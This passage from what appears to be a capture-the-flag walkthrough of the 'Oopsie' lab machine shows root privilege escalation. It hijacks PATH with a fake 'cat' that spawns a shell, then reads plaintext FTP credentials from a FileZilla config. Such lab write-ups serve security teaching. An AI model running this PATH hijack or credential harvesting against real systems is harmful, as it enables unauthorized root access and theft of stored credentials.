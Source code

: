 ```console
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: hello
---------------

cat: /root/reports/hello: No such file or directory
```

> It calls the `cat` binary using this relative path instead of the absolute one.
{: .prompt-tip }

By creating a malicious `cat` and modifying the route to include the current working directory, we should be able to abuse this misconfiguration and escalate our privileges to root. Let's try it:

```bash
export PATH=/tmp:$PATH
cd /tmp
echo '/bin/sh' > cat
chmod +x cat
```
```console
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

# whoami
root
# cd /root
# ls
reports  root.txt
```
That's it, Oopsie has been Pwned!

## Post Explotation
---

Inside the root's folder, we see a `.config`{: .filepath} folder, which contains a FileZilla config file with the credentials `ftpuser / mc@F1l3ZilL4` visible in plain text.

```xml
root@oopsie:~# cat ./.config/filezilla/filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
```